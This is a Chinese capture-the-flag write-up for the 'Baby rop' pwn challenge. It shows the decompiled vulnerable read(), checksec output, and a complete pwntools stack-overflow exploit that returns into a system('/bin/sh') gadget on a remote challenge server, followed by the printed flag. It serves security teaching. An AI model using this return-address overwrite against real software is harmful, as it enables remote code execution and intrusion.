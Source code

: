 # PWN WP Baby rop

IDA先分析一下`main()`:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-88h]

  puts(msg);
  puts(txt);
  read(0, &v4, 256uLL);
  return puts(msa);
}
```

其中的`read()`显然是可以利用的。然后`main()`往下地址挨着就有如下可用来控制的`system("/bin/sh")`。

```
.text:0000000000400618 root            proc near
.text:0000000000400618                 push    rbp
.text:0000000000400619                 mov     rbp, rsp
.text:000000000040061C                 mov     rdi, offset com ; "/bin/sh"
.text:0000000000400626                 call    _system
.text:000000000040062B                 nop
.text:000000000040062C                 pop     rbp
.text:000000000040062D                 retn
.text:000000000040062D root            endp
```

---

再看看程序的防护措施：

```shell
gef➤  checksec hello
[+] checksec for '/root/pjx/hello'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

没有多少防护，Canary也没有。

---

容易写出exploit

```python
from pwn import *

p = remote("pwnto.fun", 10000)

sysaddr = 0x000000000040061C
payload = 'A' * 136 + p64(sysaddr)

p.send(payload)
p.interactive()
```

*补充说明下：padding的长度是IDA分析`__int64 v4; // [rsp+0h] [rbp-88h]`这个0x88得到的*

运行:

```shell
root@pjx:~/pjx# python hello.py
[+] Opening connection to pwnto.fun on port 10000: Done
[*] Switching to interactive mode
Syc{S0_easy_and_S0_good}
```

